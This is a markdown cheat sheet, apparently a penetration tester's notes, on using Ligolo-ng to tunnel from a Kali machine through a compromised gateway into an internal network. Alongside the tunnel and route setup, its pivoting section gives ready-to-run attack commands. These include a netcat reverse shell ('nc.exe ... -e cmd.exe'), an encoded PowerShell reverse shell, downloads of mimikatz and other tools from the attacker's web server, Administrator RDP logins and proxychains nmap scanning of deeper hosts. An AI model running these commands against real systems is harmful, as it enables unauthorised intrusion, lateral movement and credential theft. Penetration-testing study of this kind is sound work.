 # Ligolo-ng setup

Source: https://looptube.io/?videoId=DM1B8S80EvQ  

## Prerequisite

### Framework

| WAN | DMZ | Inside LAN |
|-----|-----|------------|
| Kali | Gateway | servers, workstations | 
| IpAttacker > | < eth0: IpDmzOut - eth1: IpDmzIn > | < IpInternalNetwork (DC, WS1, WS2) |

### Binary releases

Two downloads:
- an agent: on the gateway
- a proxy: on Kali

## Setup

### Config on Kali

```
sudo ip tuntap add user kaliuser mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

### Config on the gateway

```
cmd> agent.exe -connect $IpKali:$PortKali -ignore-cert
```

### Tunneling on Ligolo-ng

```
>> help
>> session
>>>> ifconfig
```

In a shell:
```
sudo ip route add $IpInternal/24 dev ligolo
ip route list # check
```

Back in Ligolo:
```
>>>> start
```

Check with NetExec:
```
NetExec smb $IpInternal/24
```

### Pivoting in Ligolo-ng

In Ligolo
```
>>>> listener_list
>>>> listener_add --addr 0.0.0.0:$Port1 --to 127.0.0.1:$Port2
>>>> listener_add --addr 0.0.0.0:$Port3 --to 127.0.0.1:$Port4
>>>> listener_list
```

On a WS or the DC:
```
PS> nc.exe $InternalGatewayIpOnEth1 $Port1 -e cmd.exe
PS> iwr -uri http://$InternalGatewayIpOnEth1:$Port3/somepentestingtool.exe -outfile tool.exe
```

On Kali:
```
nc -lnpu $Port2
python3 -m http.server $Port4
```

Examples:
- `0.0.0.0:4446` -> `127.0.0.1:4446` then `powershell -e base64enc($InternalIpForAgent01 $4446)`
- `0.0.0.0:8081` -> `127.0.0.1:8081` then `iwr -uri http://$InternalIpForAgent01:8181/mimikatz.exe -outfile mimi.exe` (and `python3 -m http.server 8081` in `/var/www/html`)
- `0.0.0.0:3389` -> `$IpForTarget02:3389` then `xfreerdp /u:Administrator /p:adminpass /v:$ExternalIpForAgent01`

Reverse dynamic tunelling:
- in ligolo: `listener_add --addr 0.0.0.0:22 --to 127.0.0.1:22`
- on internal gateway02: `ssh -N -R 2222 kaliuser@$InternalIpForAgent01`
- in `/etc/proxychains.conf`: `socks5 127.0.0.1 2222`
- in Kali: `proxychains nmap -n -Pn -sT -vvv --top-ports=20 --open -oN nmap_tcp_deepinIP.txt $DeepInTargetIp03`
- in Firefox: set up a Sock5 proxy with Ip=127.0.0.1 and port=2222 ; then browse to `http://$DeepInTarget03/` (or `proxychains curl http://$DeepInTarget03/` in cli).


